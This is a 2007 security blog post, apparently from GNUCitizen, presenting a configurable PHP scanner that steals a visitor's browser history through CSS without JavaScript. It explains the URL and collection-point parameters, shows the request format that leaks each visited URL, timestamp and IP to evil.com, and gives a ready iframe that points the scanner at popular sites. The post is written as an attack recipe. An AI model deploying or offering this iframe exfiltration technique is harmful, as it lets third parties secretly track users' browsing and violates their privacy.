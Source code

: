 ```yaml
---
title: Noscript HScan
author: petko-d-petkov
date: Wed, 28 Feb 2007 22:57:00 GMT
template: post.jade
category: fucked
---
```


After releasing my Firefox specific [history scanner](/blog/hscan-redux/), RSnake came up with [his own](http://ha.ckers.org/blog/20070228/steal-browser-history-without-javascript) bleeding edge history scanning technique which is based on Jeremiah Grossman's [implementation](http://jeremiahgrossman.blogspot.com/2006/08/i-know-where-youve-been.html) but it does not require JavaScript. This approach has its own limitations and advantages.

On the advantages side, you don't really need JavaScript to steal the victim's browser history anymore. So, everybody who is thinking that turning off JavaScript is the safe way to go, you are most definitely wrong. You should turn CSS off too. This is it. Sparten browsing is the key. On the other hand, history scanning without JavaScript is less powerful in a way that attackers are not able to perform actions as soon as a history entry is discovered.

Still, I think that RSnake's approach is quite interesting and innovative. I decided to write a generic scanner that can be configured on the fly to steal any browser history. The scanner is located [here](http://www.gnucitizen.org/static/blog/2007/02/noscript-hscan-php.txt). Before using it you need to pass several GET or POST (it is up to you really) parameters to the script like this:

	noscript-hscan.php?u1=[url]&u2=[url]&t=[target collection point]

The scanner excepts any number of URLs. The only rule is that every URL parameters must start with **u** (lower case u). It is a good practice to number the URLs that you want to scan as u1, u2, u3, etc. The **t** parameter is for the target collection point. This is the place where the history information will be sent to. The collection point will receive requests that look like the following:

	http://evil.com/path/to/collection/point?u=[url]&t=[timestamp]&c=[ip]

The easiest way you can launch the generated scanning code is to include it inside an iframe. For example you can use something like the following:

```html
<iframe src="noscript-hscan.php?t=http%3A//evil.com/path/to/collection/point%3F&u0=http%3A//www.yahoo.com/&u1=http%3A//www.google.com/&u2=http%3A//www.myspace.com/&u3=http%3A//www.msn.com/&u4=http%3A//www.ebay.com/&"></iframe>
```

_This is it! It is simple._
